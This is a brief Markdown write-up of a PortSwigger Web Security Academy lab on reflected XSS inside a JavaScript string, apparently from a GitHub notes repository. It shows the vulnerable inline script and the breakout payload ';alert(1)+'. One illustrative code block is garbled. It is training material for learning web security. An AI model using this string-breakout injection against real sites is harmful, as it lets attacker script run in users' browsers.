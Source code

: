 # Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

URL: https://0a44000704aa0f638425916f00730048.web-security-academy.net/

![](./Images/img1.png)

## Testing fields:

![](./Images/img2.png)

![](./Images/img3.png)

## Preparation:

![](./Images/img4.png)

We have to escape:

```js
var searchTerms = 'AAAAAAAAAAA';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
```

We need a payload that turns the query to:

```js
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent'searchTerms';alert(1)' ">');
```

## Exploitation:

Payload:
```
';alert(1)+'
```

![](./Images/img5.png)